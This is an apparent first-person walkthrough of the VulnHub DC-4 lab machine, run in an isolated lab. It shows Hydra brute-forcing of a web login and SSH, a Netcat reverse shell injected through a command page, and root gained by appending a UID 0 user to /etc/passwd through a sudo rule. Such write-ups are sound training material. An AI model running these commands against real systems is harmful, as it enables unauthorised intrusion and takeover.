# DC-4 – VulnHub Walkthrough

## Introduction

This is my walkthrough of **DC-4**, a vulnerable virtual machine from the VulnHub DC series.

The aim of this lab was to identify the target machine, enumerate its services, gain initial access, escalate privileges and ultimately obtain root access.

I carried out the testing in my own isolated virtual lab environment using Kali Linux.

---

## 1. Setting Up My Working Directory

I started by creating a dedicated directory for the DC-4 lab so that I could keep my notes and any files collected during the assessment organised.

```bash
cd Documents
mkdir DC4
cd DC4
```

---

## 2. Identifying the Target Machine

Before scanning the target, I checked my network interfaces to identify the IP address of my Kali Linux machine.

My Kali machine was using the following IP address on its host-only network interface:

```text
192.168.56.107
```

I then carried out a network discovery scan to identify the machines connected to the same network.

```bash
nmap -sn 192.168.56.0/24
```

The scan identified the DC-4 virtual machine at:

```text
192.168.56.102
```



---

## 3. Port Scanning and Service Enumeration

Once I had identified the target IP address, I performed a more detailed Nmap scan to identify open ports and the services running on them.

```bash
nmap -A -p- 192.168.56.102 -T5
```

The scan identified two open ports:

| Port | Service | Details |
|---|---|---|
| 22 | SSH | OpenSSH 7.4p1 |
| 80 | HTTP | nginx 1.15.10 |

The website was running on port 80, and the page title was **System Tools**.

SSH was also available, which could potentially provide another route into the machine once valid credentials had been discovered.



---

## 4. Enumerating the Website

I opened the website in my browser using the target machine's IP address.

The website only presented a login screen, with very little additional information or functionality to investigate. There were no obvious clues on the page, so I decided to use directory and file enumeration to see whether any other pages were available.



I used FFUF to enumerate the website and look for additional files and directories.

```bash
ffuf -u http://192.168.56.102/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt
```

The scan identified several PHP files, including:

- `index.php`
- `login.php`
- `logout.php`
- `command.php`



I then used curl to investigate the command page.

```bash
curl http://192.168.56.102/command.php
```

The page required authentication, so I needed to obtain valid login credentials before I could investigate its functionality further.

---

## 5. Discovering the Website Login Credentials

I decided to use Hydra to test for weak login credentials against the website.

I used the username `admin` and the RockYou password list.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.102 http-post-form '/login.php:username=^USER^&password=^PASS^:S=command'
```

Hydra successfully identified the following credentials:

```text
Username: admin
Password: happy
```



With these credentials, I was able to log in to the website and access the command functionality.

---

## 6. Gaining Initial Access Through Command Injection

After logging in, I investigated the command functionality available through the website.

I identified that the website allowed commands to be executed through its interface. This provided an opportunity to test for command injection.

I decided to use a Netcat reverse shell to establish a connection back to my Kali machine.

First, I started a Netcat listener on Kali using port `4242`.

```bash
rlwrap nc -lvnp 4242
```



With the listener running, I entered the following command into the website's command functionality:

```bash
nc 192.168.56.107 4242 -e /bin/bash
```

This command instructed the target machine to connect back to my Kali machine at `192.168.56.107` on port `4242`, providing a Bash shell over the connection.

After executing the command through the website, my Netcat listener received a connection from the target machine.

I checked my access by running:

```bash
id
```

The output showed that I had gained access as the `www-data` user.


This gave me an initial foothold on the machine. My next objective was to investigate the system and identify a way to escalate my privileges.

---

## 7. Enumerating the System

With the reverse shell established, I started by checking my current directory and listing its contents.

```bash
ls -la
```

I then navigated to the `/home` directory to identify the local user accounts.

```bash
cd /home
ls -la
```

I discovered three user directories:

- `charles`
- `jim`
- `sam`


I decided to investigate the users' directories to see whether any useful information or files had been left behind.

---

## 8. Finding Passwords in Jim's Directory

I started by investigating Jim's directory.

```bash
cd /home/jim
ls -la
```

I found several files and directories, including:

- `.bash_history`
- `backups`
- `mbox`
- `test.sh`

I noticed a backup directory and decided to investigate it.

```bash
cat backups/old-passwords.bak
```

The file contained a list of passwords that could potentially be useful for gaining access to another account.


I transferred the password list to my Kali machine and saved it as:

```text
passwords.txt
```

I could then use this list to test for valid SSH credentials.

---

## 9. Obtaining SSH Access as Jim

Since SSH was open on port 22, I decided to use Hydra again, this time targeting Jim's account.

```bash
hydra -l jim -P passwords.txt ssh://192.168.56.102
```

Hydra successfully identified Jim's password:

```text
Username: jim
Password: jibril04
```



I then used the credentials to connect to the machine over SSH.

```bash
ssh jim@192.168.56.102
```

I now had an interactive SSH session as Jim, which gave me a more stable way to continue enumerating the machine.



---

## 10. Discovering Charles's Password

While logged in as Jim, I continued investigating the files in his home directory.

I noticed a file named `mbox`, which can contain stored email messages.

I read its contents:

```bash
cat mbox
```

The email contained information that helped me identify a password belonging to Charles.

The password I discovered was:

```text
^xHhA&hvim0y
```



I used the `su` command to switch to Charles's account.

```bash
su charles
```

After entering the password, I successfully switched users.



---

## 11. Checking Charles's Sudo Permissions

Now logged in as Charles, I checked which commands I was permitted to run with elevated privileges.

```bash
sudo -l
```

The output showed that Charles could run the following command as root without a password:

```text
(root) NOPASSWD: /usr/bin/teehee
```



This was particularly interesting because `teehee` could be used to write data to files. Since I could execute it as root, I investigated whether it could be used to modify a system file and escalate my privileges.

---

## 12. Privilege Escalation Using teehee

I identified that `/etc/passwd` contained the local user account information.

Because Charles could run `teehee` as root, I could use it to append a new user entry to this file.

I used the following command:

```bash
echo 'user0::0:0::/root:/bin/bash' | sudo /usr/bin/teehee -a /etc/passwd
```

This appended a new account called `user0` to `/etc/passwd`.

The important part of the entry was:

```text
user0::0:0::/root:/bin/bash
```

The UID and GID were both set to `0`, meaning the new account would have root-level privileges.



With the account added, I used `su` to switch to it.

```bash
su user0
```

I then checked my identity:

```bash
id
```

The output confirmed that I had successfully obtained root privileges.

```text
uid=0(root) gid=0(root) groups=0(root)
```



---

## 13. Finding the Final Flag

With root access established, I navigated to the root user's home directory.

```bash
cd /root
ls -la
```

I found the `flag.txt` file and read its contents.

```bash
cat flag.txt
```

This revealed the final message and confirmed that I had successfully completed the DC-4 challenge.



---

## 14. Conclusion

DC-4 was a useful practical exercise in understanding how several smaller security weaknesses can be combined to gain full control of a Linux machine.

During this assessment, I:

- Used Nmap to identify the target machine and enumerate open ports.
- Used FFUF to discover additional website files.
- Used Hydra to identify weak website login credentials.
- Exploited command injection to obtain an initial reverse shell.
- Enumerated local users and files to discover password information.
- Used Hydra again to obtain SSH access as Jim.
- Investigated stored email messages to discover Charles's password.
- Identified an insecure sudo permission involving `teehee`.
- Used the misconfigured permission to modify `/etc/passwd` and obtain root access.

The lab demonstrated the importance of secure authentication, validating user input, protecting sensitive files and carefully configuring sudo permissions.

It also reinforced how useful thorough enumeration can be during a penetration test. Information discovered at one stage of the assessment can often provide the route to the next.

**DC-4 successfully completed!**
